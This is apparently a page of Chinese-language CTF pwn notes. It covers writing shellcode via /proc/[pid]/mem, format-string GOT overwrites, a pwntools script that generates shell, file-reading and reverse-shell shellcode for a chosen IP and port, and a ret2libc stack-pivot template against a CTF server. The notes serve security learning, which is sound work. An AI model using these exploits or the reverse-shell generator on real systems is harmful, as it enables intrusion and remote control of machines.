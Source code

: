   - 沙盒开放open和write和lseek，但是没有read。可以open `/proc/[pid]/mem`，lseek到任意地址，write写shellcode。特殊的地方在于，如果是通过mem文件访问内存，可以无视代码段的权限，直接往权限只有`rx`的函数代码段写shellcode。类似这道题： https://ctftime.org/writeup/23144
  - 个人解法：**secure-sandbox**

1. 程序关闭标准输出会导致getshell后无法得到cat flag的输出。这时可以用命令`exec 1>&0`将标准输出重定向到标准输入，再执行cat flag就能看见了。因为默认打开一个终端后，0，1，2（标准输入，标准输出，标准错误）都指向同一个位置也就是当前终端。详情见这篇[文章](https://blog.csdn.net/xirenwang/article/details/104139866)。例题：[wustctf2020_closed](https://buuoj.cn/challenges#wustctf2020_closed)
2. 做菜单类堆题时，添加堆块的函数一般是最重要的，需要通过分析函数来构建出程序对堆块的安排。比如有些笔记管理题会把笔记名称放一个堆中，笔记内容放另一个堆中，再用一个列表记录指针。了解程序是怎么安排堆后才能根据漏洞制定利用计划。如果分析不出来，用gdb调试对着看会好很多。例题：[babyfengshui](https://github.com/C0nstellati0n/NoobCTF/blob/main/CTF/%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8C/6%E7%BA%A7/Pwn/babyfengshui.md)
3. 32位利用A和%p计算格式化字符串偏移+$hn按字节改got表。例题：[axb_2019_fmt32](https://github.com/C0nstellati0n/NoobCTF/blob/main/CTF/BUUCTF/Pwn/axb_2019_fmt32.md)
4. pwntools生成shellcode

适用于linux。不过我到现在还没见过windows的pwn，可能是windows考的不多吧。

```python
from pwn import *
arch=input("arch? i386/amd64: ")
context(log_level = 'debug', arch = arch, os = 'linux')
choice=input("shell/orw/reverse: ")[:-1]
if choice=="shell":
    shellcode=asm(shellcraft.sh())
    print(shellcode)
elif choice=="reverse":
    ip = input("IP: ")[:-1]
    port=int(input('port: ')[:-1])
    print(asm(shellcraft.connect(ip, port) + shellcraft.dupsh()))
else:
    mmap_addr = int(input("hex addr: "),16)
    filename=input("filename: ")
    length=int(input("length(in decimal): "))
    shellcode = shellcraft.open(filename)
    shellcode += shellcraft.read(3, mmap_addr, length)
    shellcode += shellcraft.write(1, mmap_addr, length)
    print(asm(shellcode))
```

- 64位9字节read shellcode：`xor eax,eax;xor edi,edi;mov rdx,r10;syscall`,结果是`b'\x82QN".\x08\xc3e\x95'`。

6. pwn 栈题模板

## 64位

- ret2libc+格式化字符串绕canary:[bjdctf_2020_babyrop2](https://github.com/C0nstellati0n/NoobCTF/blob/main/CTF/BUUCTF/Pwn/bjdctf_2020_babyrop2.md)。

- ropchain getshell+溢出绕canary:[rop64](https://github.com/C0nstellati0n/NoobCTF/blob/main/CTF/moectf/Pwn/rop64.md)。

- ret2libc:[ret2libc](https://github.com/C0nstellati0n/NoobCTF/blob/main/CTF/moectf/Pwn/ret2libc.md)
- 程序给出buf地址的栈迁移:[actf_2019_babystack](https://blog.csdn.net/mcmuyanga/article/details/112801732)

```python
from pwn import *
context.log_level='debug'
p=remote("node4.buuoj.cn",28412)
leave_ret=0x0000000000400a18
puts_plt=0x400730
puts_got=0x601020
main=0x4008f6
pop_rdi=0x0000000000400ad3
p.sendlineafter(">",str(0xe0))
p.recvuntil('0x')
stack_addr=int(p.recv(12),16)
print(hex(stack_addr))
payload=b'a'*8+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main)
```
